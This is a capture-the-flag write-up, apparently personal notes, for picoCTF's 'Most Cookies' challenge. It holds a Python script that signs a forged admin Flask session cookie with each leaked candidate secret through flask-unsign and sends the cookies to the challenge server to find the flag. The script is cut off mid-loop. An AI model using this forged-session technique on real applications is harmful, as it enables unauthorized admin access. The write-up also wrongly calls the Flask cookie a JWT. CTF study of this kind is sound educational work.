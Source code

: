 ```
```

---

## Most Cookies

### Description

> Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py) [http://mercury.picoctf.net:53700/](http://mercury.picoctf.net:53700/)
> 

### Thought process

- Firstly, the title itself pulled me to check the cookies after login.
- That is a JWT token, if it is a JWT, then we must have gotten the signing key used to make that token from the sever.py
- Yes, we did get a list of secret keys that are being used. Now, it’s time to bruteforce the keys and see what is the secret key is being used.
- Later, i even made a own JWT with header, `{'very_auth': 'admin'}`  and sent requests to fetch the flag.
- Ofcourse, I’ve got this automation script from chatGPT.

```python
import subprocess
import requests

def sign_cookie_with_secrets(secrets, cookie_data="{'very_auth': 'admin'}"):

    signed_cookies = {}

    for secret in secrets:
        try:
            # Build the command with the full path to flask-unsign.exe
            command = [
                r'C:\Users\socal\AppData\Roaming\Python\Python312\Scripts\flask-unsign.exe',
                '--sign',
                '--cookie', cookie_data,
                '--secret', secret
            ]

            # Run the command and capture the output
            result = subprocess.run(command, capture_output=True, text=True, check=True)

            # Store the signed cookie
            signed_cookies[secret] = result.stdout.strip()
        except subprocess.CalledProcessError as e:
            # Handle errors (e.g., invalid secret or command failure)
            signed_cookies[secret] = f"Error: {e.stderr.strip()}"
    print(signed_cookies)
    return signed_cookies

def check_cookies_for_flag(signed_cookies):
    target_url = 'http://mercury.picoctf.net:53700/display'

    for secret, signed_cookie in signed_cookies.items():
        try:
            # Send a GET request with the signed cookie
            cookies = {'session': signed_cookie}
            response = requests.get(target_url, cookies=cookies,allow_redirects=False)
            if response.status_code==302:
                continue

```